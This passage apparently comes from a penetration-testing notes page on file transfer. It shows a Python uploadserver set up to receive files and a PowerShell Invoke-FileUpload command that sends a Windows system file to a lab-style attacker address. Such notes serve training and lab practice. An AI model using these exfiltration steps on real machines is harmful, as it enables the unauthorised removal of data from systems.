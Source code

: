 Again, the hashes are matching `93453E17ECF7EF7028864D144B1347A5` !

## Web Server Upload

I can use `uploadserver` which is an extended module of the Python `http.server` module.

```bash
pip3 install uploadserver
python3 -m uploadserver
```

Now, I can upload my file on [http://127.0.0.1:8000/upload](http://127.0.0.1:8000/upload)

<figure><img src="../../../../.gitbook/assets/linux-web-server-upload-page.png" alt=""><figcaption></figcaption></figure>

Once I submit the query, I see the file has been received on the web server

<figure><img src="../../../../.gitbook/assets/linux-web-server-upload.png" alt=""><figcaption></figcaption></figure>

I can upload the file with Powershell

```powershell
Invoke-FileUpload -Uri http://10.10.14.9:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```
